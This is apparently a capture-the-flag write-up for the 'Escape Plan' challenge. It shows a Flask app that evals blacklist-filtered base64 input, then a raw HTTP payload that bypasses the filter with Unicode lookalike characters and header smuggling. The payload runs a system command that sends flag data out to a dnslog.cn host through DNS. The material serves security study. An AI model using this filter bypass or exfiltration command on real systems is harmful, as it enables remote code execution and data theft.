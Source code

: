 # D^3CTF 2023 Escape Plan

```python
import base64

from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def challenge_3():
    cmd = request.form.get("cmd", "")
    if not cmd:
        return """<pre>
import requests, base64
exp = ''
requests.post("", data={"cmd": base64.b64encode(exp.encode())}).text
</pre>
"""

    try:
        cmd = base64.b64decode(cmd).decode()
    except Exception:
        return "bad base64"

    black_char = [
        "'", '"', '.', ',', ' ', '+',
        '__', 'exec', 'eval', 'str', 'import',
        'except', 'if', 'for', 'while', 'pass',
        'with', 'assert', 'break', 'class', 'raise',
        '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    ]
    for char in black_char:
        if char in cmd:
            return f'failed: `{char}`'

    msg = "success"
    try:
        eval(cmd)
    except Exception:
        msg = "error"

    return msg
```

## payload 1

```
POST /? HTTP/1.1
Host: 127.0.0.1:5000
Content-Type: application/x-www-form-urlencoded
Tao: request.form['a']
Content-Length: 235

cmd=4bWJdmFsKOG1iXZhbCjhtYl2YWwodmFycyhyZXF1ZXN0KVtsaXN0KGRpY3QoaGVhZGVycz1UcnVlKSlbRmFsc2VdXVtsaXN0KGRpY3QoVGFvPVRydWUpKVtGYWxzZV1dKSkp&a=__import__('so'[::-1]).system("ping+`cd+/;./readflag|base64|cut%20-b%2061-68`.lgw597.dnslog.cn")
```
